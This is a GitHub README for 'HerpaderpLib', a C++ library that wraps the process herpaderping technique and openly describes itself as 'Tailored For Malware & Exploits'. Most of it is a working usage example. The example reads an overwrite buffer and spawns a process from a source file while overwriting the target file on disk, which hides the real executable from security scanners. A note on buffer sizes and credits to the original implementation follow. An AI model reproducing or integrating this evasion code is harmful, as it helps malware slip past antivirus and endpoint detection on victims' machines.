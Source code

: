 
# HerpaderpLib

An Easy To Use Process Herpaderping Library Tailored For Malware & Exploits.

## Example

```cpp
LPCWSTR sourceFileName = argv[1];
    LPCWSTR targetFileName = argv[2];
    LPCWSTR overwriteFileName = argv[3];

    if (!sourceFileName || !targetFileName || !overwriteFileName) {
        printf("[*] Usage: Herpaderp.exe <SOURCE_FILE> <TARGET_FILE> <OVERWRITE_FILE>\n");
        return -1;
    }

    HANDLE overwriteFile = CreateFileW(
        overwriteFileName,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        0
    );

    DWORD bufferSize;
    auto buffer = herpaderp::readFile(overwriteFile, bufferSize);

    if (!buffer || bufferSize == 0)
        printf("[-] Failed To Read Overwrite File.\n");
    else
        printf("[+] Read Overwrite File.\n");

    auto resInfo = herpaderp::herpaderp(
        sourceFileName, // sourceFileName
        targetFileName, // targetFileName
        NtCurrentProcess, // parentProcess
        (PBYTE)buffer, // overwriteBuffer
        bufferSize // overwriteBufferSize
    );

    if (herpaderp::succeeded(resInfo))
        printf("[+] Process Herpaderped!, Process PID: %ld\n", GetProcessId(resInfo.process));
  
    free(buffer); // buffer is allocated by malloc, don't forget to free it, You can change this to use a unique pointer instead.
```

## Notes
You may need to add size checks to ``herpaderp::overwriteWithBuffer``, Depending on your needs (OverwriteFileSize < TargetFileSize).


## Credits

[Process Herpaderping](https://github.com/jxy-s/herpaderping) by [jxy-s](https://github.com/jxy-s), I just basically simplified his implementation and made it operate like a library instead, So It can be included in any of your projects easily without worrying about dependencies.
